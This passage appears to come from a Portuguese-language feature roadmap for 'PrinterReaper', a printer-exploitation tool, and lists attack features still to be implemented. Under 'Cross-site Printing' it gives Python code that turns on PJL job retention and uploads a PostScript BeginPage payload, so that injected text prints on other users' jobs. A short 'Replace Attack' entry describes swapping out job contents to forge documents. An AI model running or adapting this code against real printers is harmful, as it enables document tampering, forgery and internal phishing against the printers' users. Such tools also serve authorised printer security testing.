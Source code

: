 ### ❌ 5.5 Cross-site Printing (FALTANDO) 🔴
**Descrição**: Injetar conteúdo no job de outro usuário  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Phishing interno, manipulação  
**Risco**: CRÍTICO - Engenharia social

**Implementação**:
```python
def do_cross(self, arg):
    """Cross-site printing - inject content into other users' jobs"""
    if not arg:
        output().errmsg("Usage: cross <content_file>")
        output().info("Injects content into print jobs from other users")
        return
    
    if not os.path.exists(arg):
        output().errmsg(f"File not found: {arg}")
        return
    
    content = file().read(arg)
    if not content:
        return
    
    output().warning("Cross-site printing attack...")
    output().warning("Will inject content into other users' jobs!")
    
    # Method 1: Via job interception
    # Enable job retention
    self.cmd("@PJL SET JOBRETENTION=ON")
    
    # Method 2: Via PostScript injection
    ps_injection = f"""
    %!PS-Adobe-3.0
    << /BeginPage {{
        gsave
        100 700 moveto
        ({content.decode('utf-8', errors='ignore')[:100]}) show
        grestore
    }} >> setpagedevice
    """
    
    # Upload injection code
    self.put("0:/inject.ps", ps_injection.encode())
    
    # Configure to run on all jobs
    self.cmd("@PJL ENTER LANGUAGE=POSTSCRIPT")
    self.send(ps_injection.encode())
    
    output().info("Cross-site injection installed")
```

### ❌ 5.6 Replace Attack (FALTANDO) 🔴
**Descrição**: Substituir completamente o conteúdo de um job  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Trocar documento por outro completamente diferente  
**Risco**: CRÍTICO - Falsificação de documentos
